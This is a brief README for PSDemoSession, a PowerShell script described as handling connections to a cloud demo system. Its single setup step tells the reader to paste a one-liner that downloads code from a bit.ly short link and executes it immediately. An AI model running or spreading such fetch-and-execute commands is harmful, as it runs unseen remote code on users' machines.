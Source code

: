 ## PSDemoSession

PSDemoSession is a PowerShell script that handles the connection to a cloud demo system

To execute the session run PowerShell and paste in the following command and press enter  
```
iex (iwr http://bit.ly/2onXd61).content
```
